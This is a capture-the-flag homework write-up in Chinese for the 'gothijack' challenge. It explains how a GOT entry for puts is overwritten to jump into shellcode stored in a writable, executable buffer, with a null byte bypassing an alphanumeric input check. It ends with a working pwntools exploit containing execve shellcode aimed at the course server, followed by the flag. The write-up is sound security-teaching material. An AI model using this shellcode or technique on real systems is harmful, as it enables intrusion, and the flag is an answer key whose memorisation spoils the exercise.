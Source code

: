 # Hw2

## gothijack

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```

### concept

該程式很單純的做了四件事

1. 輸入 name
2. 輸入想修改的 address
3. 輸入想修改的值
4. 輸出 done !

依題目提示可知是使用 got hijack 的技巧來達成攻擊，不過這題有 canary 不能直接 overflow 造出 ROP chain

不過有個可以可控的 buffer 可以利用，使用 gdb 觀察一下發現該處可寫可執行！！！

![](https://i.imgur.com/8RqKD74.png)

![](https://i.imgur.com/pauryBM.png)

如此就可以塞入 shellcode 並修改 puts 的 got 為 buffer address，使得最後要輸出時 call puts 會跳到寫好的 shellcode 執行

但是輸入的 buffer 讀進來後有個 check 函數檢查輸入要為 alpha 或 number，不過他是用 strlen 判斷長度可以使用 null byte 繞過，因為他是以 null byte 當作字串結尾

![](https://i.imgur.com/MmUJNOm.png)

所以我們可以在 shellcode 前面塞一個 null byte 繞過檢查，而之後 puts got 的值改成 buffer address + 1 即可

### exploit

使用 objdump 可以看到 puts 的 got

![](https://i.imgur.com/ZyWex9z.png)

```python
#!/usr/bin/env python

from pwn import *

# r = process('./gothijack')
r = remote('csie.ctf.tw', 10129)

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\
\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
puts_got = '601020'
buf_addr = 0x6010a1

r.recvuntil(':')
r.send('\x00' + shellcode)
r.recvuntil(':')
r.sendline(puts_got)
r.recvuntil(':')
r.sendline(p64(buf_addr))
r.interactive()
```

### flag

```FLAG{G0THiJJack1NG}```
